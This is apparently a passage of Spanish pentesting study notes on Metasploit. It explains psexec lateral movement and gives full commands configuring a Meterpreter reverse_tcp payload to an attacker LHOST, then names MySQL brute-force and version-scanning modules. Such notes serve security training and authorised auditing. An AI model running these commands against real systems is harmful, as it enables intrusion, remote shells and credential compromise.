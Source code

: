 					- **Post-explotación**: Una vez que se obtienen credenciales válidas de un sistema, `psexec` es usado comúnmente para moverse lateralmente en la red corporativa y comprometer otros sistemas.
					- **Persistencia**: Ejecutar scripts o cargas útiles que permiten al atacante mantener acceso al sistema comprometido.
					- **Evasión de detección**: Debido a que `psexec` usa funciones nativas de Windows, a menudo puede evadir algunos sistemas de detección basados en firmas.
				- ### Ejemplo de uso del módulo `psexec` en Metasploit
					
					1. Abrir Metasploit:
					
					    `msfconsole`
					    
					2. Seleccionar el módulo `psexec`:
					    
					    `use exploit/windows/smb/psexec`
					    
					3. Establecer las opciones necesarias:
					    
					    - `RHOSTS`: La IP o el rango de IPs de las máquinas objetivo.
					    - `SMBDomain`: El dominio si estás en un entorno con dominio (opcional).
					    - `SMBUser`: El nombre de usuario con privilegios de administrador.
					    - `SMBPass`: La contraseña o el hash del usuario.
					    - `PAYLOAD`: Establecer el payload que se ejecutará, como `windows/meterpreter/reverse_tcp`.
					    
					    Ejemplo de configuración de opciones:
					    
					    `set RHOSTS 192.168.1.100 set SMBUser administrador set SMBPass password123 set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 192.168.1.50 set LPORT 4444`
					    
					4. Ejecutar el ataque:
					
					    `exploit`
					    
						- Si las credenciales son correctas y el sistema es vulnerable, se abrirá una sesión de **Meterpreter** que permite realizar acciones post-explotación en el sistema remoto.
	- ## MYSQL:
		- **Modulo para fuerza bruta sobre le login:**
			- El módulo `mysql_login` de Metasploit es una herramienta diseñada para realizar ataques de fuerza bruta (brute force) contra servidores MySQL. Su objetivo es intentar varias combinaciones de nombres de usuario y contraseñas hasta encontrar credenciales válidas que permitan acceder al servidor MySQL.
				- ### Funcionalidad del Módulo `mysql_login`
	
					- El módulo `mysql_login` intenta autenticarse en un servidor MySQL usando una lista de nombres de usuario y contraseñas. Si encuentra una combinación válida, se puede utilizar para acceder a la base de datos, ejecutar consultas y potencialmente comprometer el sistema.
				```
				use auxiliary/scanner/mysql/mysql_login
				```
		- **Modulo para identificar version:
			- El módulo `mysql_version` de Metasploit es un módulo auxiliar que se utiliza para identificar la versión del servidor MySQL en un sistema remoto. Este módulo no realiza una explotación activa, sino que simplemente se conecta al servidor MySQL y extrae la información sobre la versión. Conocer la versión de MySQL es útil para identificar posibles vulnerabilidades que podrían ser explotadas en futuras fases de una auditoría de seguridad o prueba de penetración.
				- ### Descripción del Módulo
					
